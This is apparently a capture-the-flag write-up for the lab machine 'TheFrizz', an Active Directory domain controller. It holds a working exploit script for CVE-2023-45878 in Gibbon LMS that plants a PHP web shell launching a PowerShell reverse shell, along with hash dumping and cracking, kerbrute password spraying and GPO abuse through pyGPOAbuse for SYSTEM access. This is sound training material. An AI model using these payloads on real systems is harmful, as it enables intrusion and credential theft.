

# Description

TheFrizz is a medium Windows machine. The box involves attacking a domain controller using Kerberos authentication vulnerabilities, abusing Group Policy Objects (GPO), and leveraging the Recycle Bin. The attack path includes obtaining credentials, manipulating GPO settings, and finally achieving NT Authority\System access.

# Recon

`nmap` shows open ports that are common on a Domain Controller machine.

```bash
# Nmap 7.95 scan initiated Sun Mar 23 16:42:40 2025 as: nmap -vvv -p- -4 -sSCV -oN all_tcp_scan.txt 10.10.11.60
Nmap scan report for 10.10.11.60 (10.10.11.60)
Host is up, received echo-reply ttl 127 (0.032s latency).
Scanned at 2025-03-23 16:42:41 WIB for 100s

PORT      STATE SERVICE       REASON          VERSION
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-23 16:24:25Z)
135/tcp   open  msrpc?        syn-ack ttl 127
139/tcp   open  netbios-ssn?  syn-ack ttl 127
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
9389/tcp  open  adws?         syn-ack ttl 127
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
51132/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51136/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
51147/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port139-TCP:V=7.95%I=7%D=3/23%Time=67DFD799%P=x86_64-pc-linux-gnu%r(Get
SF:Request,5,"\x83\0\0\x01\x8f");
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h41m30s
| smb2-time:
|   date: 2025-03-23T16:25:13
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 21203/tcp): CLEAN (Timeout)
|   Check 2 (port 49016/tcp): CLEAN (Timeout)
|   Check 3 (port 49509/udp): CLEAN (Timeout)
|   Check 4 (port 31256/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and require
```

It reveals the hostname `frizzdc` and the domain `frizz.htb`, make sure to add the FQDN and those to `/etc/hosts`. Make sure the FQDN comes first because of [Algorithm to resolve host names](https://www.ibm.com/docs/en/samfm/8.0.1?topic=spnego-algorithm-resolve-host-names).

```bash
10.10.11.60 frizzdc.frizz.htb frizz.htb frizzdc
```

We didn't given any credentials and no anonymous access, so let's check the HTTP port.

## 80 - TCP

### Enumeration

The landing page itself doesn't contain anything useful other than a link to the staff login page at `/Gibbon-LMS`. It should be a Gibbon LMS.



You will see an announcement below the welcome word that tells you the authentication mechanism uses kerberos. You can also see the version of the application that is `25.0.00`, which has many CVEs but the most critical one is [CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878). It's an unauthenticated RCE vulnerability and has a [public PoC](https://herolab.usd.de/security-advisories/usd-2023-0025/).

I wrote a script to automate the process :
`gibbon_unauthenticated_rce.py`

```python
import requests
from base64 import b64encode

url = "http://frizzdc.frizz.htb/Gibbon-LMS"
filename = "bruh.php"

payload = b64encode(
    "<?php system('powershell -e <B64_revshell>'); ?>".encode()
).decode()


data = {
    "img": f"image/png;bruh,{payload}",
    "path": filename,
    "gibbonPersonID": "0000000001",
}

r = requests.post(
    url + "/modules/Rubrics/rubrics_visualise_saveAjax.php",
    data=data,
)

assert r.text == filename, print("Failed to upload file")

r = requests.get(url + f"/{filename}")
```

# Shell as w.webservice

## Enumeration

The current user doesn't have excessive privileges, so let's just dump the users from Gibbon LMS database. The database credential can be found at `C:\xampp\htdocs\Gibbon-LMS\config.php`. You can use mysql binary from xampp at `C:\xampp\mysql\bin\mysql.exe` to interact with the MySQL service.

## MySQL

```powershell
# Get tables
PS C:\xampp\mysql\bin> ./mysql.exe -u <USER> -p<PASS> -e "use gibbon;show tables"

# Get password hash and salt
PS C:\xampp\mysql\bin> ./mysql.exe -u <USER> -p<PASS> -e "use gibbon;select username,passwordStrong,passwordStrongSalt from gibbonperson;"
```

## Hash Cracking

The password hash itself is SHA-256.

```bash
> nth --text '<HASH>'

  _   _                           _____ _           _          _   _           _
 | \ | |                         |_   _| |         | |        | | | |         | |
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash


<HASH>

Most Likely
SHA-256, HC: 1400 JtR: raw-sha256 Summary: 256-bit key and is a good partner-function for AES. Can be used in Shadow files.
```

We need to format the hash according to the `hashcat` format.

```bash
> hashcat --help | rg 'sha256'
   1470 | sha256(utf16le($pass))                                     | Raw Hash
   1410 | sha256($pass.$salt)                                        | Raw Hash salted and/or iterated
   1420 | sha256($salt.$pass)                                        | Raw Hash salted and/or iterated
```

I will choose `1410` mode, so the salt comes after the hash.

```bash
<HASH>:<SALT>
```

Crack it using `hashcat` with the `rockyou.txt` wordlist.

```bash
hashcat f.frizzle_hash.txt <path_to_rockyou> -m 1410
```

It should be cracked. Checking membership of `Remote Management Users` group reveals that `f.frizzle` is a member.

```powershell
PS C:\xampp\mysql\bin> net localgroup "Remote Management Users"
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
f.frizzle
M.SchoolBus
The command completed successfully.
```

Because the WinRM port isn't open, let's use SSH with Kerberos authentication.

## Kerberos SSH

Add the domain information to the `/etc/krb5.conf`.

```bash
[libdefaults]
        default_realm = FRIZZ.HTB
...
[realms]
...
        FRIZZ.HTB = {
                kdc = frizzdc.frizz.htb
                admin_server = frizzdc.frizz.htb
        }
...
[domain_realm]
        frizz.htb = FRIZZ.HTB
        .frizz.htb = FRIZZ.HTB
...
```

Add the following options to `~/.ssh/config` :

```bash
GSSAPIAuthentication yes
GSSAPIDelegateCredentials yes
```

Get a ticket and authenticate.

```bash
# Adjust your time to the domain
sudo ntpdate frizz.htb

# Get a ticket
getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip 10.10.11.60

# Export the ticket and auth
export KRB5CCNAME=$(realpath f.frizzle.ccache)
ssh f.frizzle@frizz.htb
```

# Shell as f.frizzle

## User flag

```powershell
PS C:\Users\f.frizzle> cat Desktop/user.txt
deadbeefecfe4d36283a8c8dc60ffake
```

## Enumeration

Running `winpeas` doesn't produce any useful information. Another thing we should check is the Recycle Bin. We can't access the directory directly using `cd` command, but we can use PowerShell to list the contents of the Recycle Bin. I came across this post [Managing the Recycle Bin with PowerShell](https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/) which has information for us to get the contents of the Recycle Bin.

```powershell
PS C:\Users\f.frizzle> $shell = New-Object -com shell.application
PS C:\Users\f.frizzle> $rb = $shell.namespace(10)
PS C:\Users\f.frizzle> $rb.Items()

Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      :
GetFolder    :
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```

There's one item in the Recycle Bin of the current user, which is the `wapt-backup-sunday.7z` file. Let's copy it to the `f.frizzle` user's home directory, then download it using `scp`.

```powershell
PS C:\Users\f.frizzle> $path = $item | Select-Object -ExpandProperty Path
PS C:\Users\f.frizzle> Copy-Item -Path $path -Destination out.7z
```

From your host machine :

```bash
scp f.frizzle@frizz.htb:out.7z .
# Extract the archive
7z x out.7z
```

The extracted directory contains many files, but the files inside `conf` directory are always the priority.<br>
The `waptserver.ini` file contains a base64 password. We could use this password to spray the users.

```bash
echo 'wapt_password' | base64 -d
```

## Password Spraying

Grab all the users.

```bash
GetADUsers.py -k -no-pass frizz.htb/ -dc-host frizzdc.frizz.htb -all | awk '{print $1}' | tail -n +6 > users.txt
```

Spray the users.

```bash
> kerbrute passwordspray --dc frizzdc.frizz.htb -d frizz.htb users.txt '<PASS>'

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/24/25 - Ronnie Flathers @ropnop

2025/03/24 03:26:43 >  Using KDC(s):
2025/03/24 03:26:43 >   frizzdc.frizz.htb:88

2025/03/24 03:26:43 >  [+] VALID LOGIN:  M.SchoolBus@frizz.htb:<PASS>
```

The password is valid for `M.SchoolBus` user. From the previous information about `Remote Management Users` group membership, this user is a member of that group. Get a ticket and log in using SSH with Kerberos authentication.

# Shell as M.SchoolBus

## Enumeration

This user belongs to the `Group Policy Creator Owners` group, which could create GPOs and modify them.

```powershell
PS C:\Users\M.SchoolBus> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes

============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group

BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group

BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group

BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group

frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group

frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group

Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group

frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192
```

## GPO Abuse

We could create a GPO using `New-GPO` and link it using `New-GPLink` commands. The target OU is the `Domain Controllers` OU.

```powershell
PS C:\Users\M.SchoolBus> Get-ADDomainController -Filter * | Select-Object ComputerObjectDN

ComputerObjectDN
----------------
CN=FRIZZDC,OU=Domain Controllers,DC=frizz,DC=htb
```

The target OU is `OU=Domain Controllers,DC=frizz,DC=htb`.

```powershell
PS C:\Users\M.SchoolBus> New-GPO -Name jergal | New-GPLink -Target "OU=Domain Controllers,DC=frizz,DC=htb"

GpoId       : d9036dd1-24b4-4a7d-be90-d704a8967a85
DisplayName : jergal
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

Grab the GPO id because we need it for [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse).

```bash
 pygpoabuse -k frizz.htb/M.SchoolBus@frizzdc.frizz.htb -gpo-id '<GPO_ID>' -ccache M.SchoolBus.ccache -dc-ip frizzdc.frizz.htb -powershell -command "powershell -e <base64_revshell>" -taskname "yolo" -description "yolo"
```

Then, update the GPO using `gpupdate` or `gpupdate /force` command and you should have a reverse shell.

# Shell as nt authority\system

## Root flag

```powershell
PS C:\Windows\system32> cat /Users/Administrator/Desktop/root.txt
deadbeef85c73cd2136e5780d253fake
```
